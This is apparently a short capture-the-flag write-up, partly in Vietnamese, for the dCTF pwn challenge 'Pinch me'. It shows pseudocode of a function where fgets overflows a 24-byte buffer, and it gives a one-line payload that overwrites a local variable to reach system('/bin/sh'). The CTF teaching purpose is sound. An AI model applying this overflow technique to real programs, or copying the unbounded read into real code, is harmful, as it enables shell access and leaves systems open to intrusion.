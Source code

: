 ![pinch_me](C:\Users\vietd\OneDrive - actvn.edu.vn\MyWriteUp\VietAT16-Task_KCSC\dCTF\pwn\Pinch me\imgs\pinch_me.png)

Hàm **main** sẽ gọi đến hàm **vuln**. 

Pseudocode of **vuln** func:

```c
int vuln()
{
  char s[24];
  int v2;
  int v3;

  v3 = 0x1234567;
  v2 = 0x89ABCDEF;
  puts("Is this a real life, or is it just a fanta sea?");
  puts("Am I dreaming?");
  fgets(s, 100, stdin);
  if ( v2 == 0x1337C0DE )
    return system("/bin/sh"); 		// your target
  if ( v3 == 0x1234567 )
    return puts("Pinch me!");
  return puts("Pinch me harder!");

```

Ta cần overwrite biến v2 = 0x1337C0DE là done

![stack](C:\Users\vietd\OneDrive - actvn.edu.vn\MyWriteUp\VietAT16-Task_KCSC\dCTF\pwn\Pinch me\imgs\stack.png)

payload = 'A' * 24 + '\xde\xc0\x37\x13'

![flag](C:\Users\vietd\OneDrive - actvn.edu.vn\MyWriteUp\VietAT16-Task_KCSC\dCTF\pwn\Pinch me\imgs\flag.png)

